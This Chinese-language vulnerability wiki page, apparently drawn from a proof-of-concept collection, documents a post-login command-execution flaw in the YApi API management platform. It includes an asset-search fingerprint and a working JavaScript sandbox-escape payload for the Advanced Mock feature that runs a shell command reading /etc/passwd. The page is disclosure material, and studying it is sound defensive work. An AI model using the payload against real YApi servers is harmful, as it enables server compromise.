

# YApi 接口管理平台 后台命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Account/projectcreation and advancedMock;registrationavailability optional
- 证据范围：Constructor escape and UItrigger;no version/fix/source

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Versionmetadata productname only
- Authentication/projectpermissions and Node/runtimeversions essential
- No upstreamadvisory/fix
- Exactduplicate53 except formatting/source/imagepath

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## 网络测绘

```
app="YApi"
```

## 漏洞复现

登录页面


首先需要注册账户并登录





添加项目，参数任意


创建后点击 高级Mock 输入如下Payload


```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```


预览处点击项目链接


---

> 来源：Threekiii/Awesome-POC
